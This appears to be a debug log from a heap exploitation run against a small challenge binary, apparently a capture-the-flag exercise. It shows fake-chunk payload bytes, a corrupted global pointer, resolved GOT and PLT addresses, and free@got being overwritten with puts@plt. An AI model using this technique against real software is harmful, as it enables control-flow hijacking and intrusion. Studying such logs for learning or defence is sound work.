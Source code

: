 ```powershell
[DEBUG] Sent 0x4 bytes:
    '128\n'
[DEBUG] Received 0x5 bytes:
    '3\n'
    'OK\n'
[*] Creating fake chunk...
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Sent 0x3 bytes:
    '64\n'
[DEBUG] Sent 0x41 bytes:
    00000000  00 00 00 00  00 00 00 00  30 00 00 00  00 00 00 00  │····│····│0···│····│
    00000010  38 21 60 00  00 00 00 00  40 21 60 00  00 00 00 00  │8!`·│····│@!`·│····│
    00000020  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    00000030  30 00 00 00  00 00 00 00  90 00 00 00  00 00 00 00  │0···│····│····│····│
    00000040  0a                                                  │·│
    00000041
[DEBUG] Received 0x8 bytes:
    'OK\n'
    'FAIL\n'
[*] Now we have fake chunks, just free chunk3 to change global pointer...
[DEBUG] Sent 0x2 bytes:
    '3\n'
[DEBUG] Sent 0x2 bytes:
    '3\n'
[DEBUG] Received 0x3 bytes:
    'OK\n'
[+] Global pointer has been changed!
[*] Finding address in program...
[+] free@got : 0x602018
[+] puts@got : 0x602020
[+] atoi@got : 0x602088
[+] puts@plt : 0x400760
[*] Overwriting global pointers...
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Sent 0x3 bytes:
    '32\n'
[DEBUG] Sent 0x21 bytes:
    00000000  61 61 61 61  61 61 61 61  18 20 60 00  00 00 00 00  │aaaa│aaaa│· `·│····│
    00000010  20 20 60 00  00 00 00 00  88 20 60 00  00 00 00 00  │  `·│····│· `·│····│
    00000020  0a                                                  │·│
    00000021
[DEBUG] Received 0x8 bytes:
    'OK\n'
    'FAIL\n'
[+] Complete!
[*] Changing free@got --> puts@plt...
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Sent 0x2 bytes:
    '0\n'
[DEBUG] Sent 0x2 bytes:
    '8\n'
[DEBUG] Sent 0x9 bytes:
    00000000  60 07 40 00  00 00 00 00  0a                        │`·@·│····│·│
    00000009
[DEBUG] Received 0x8 bytes:
    'OK\n'
```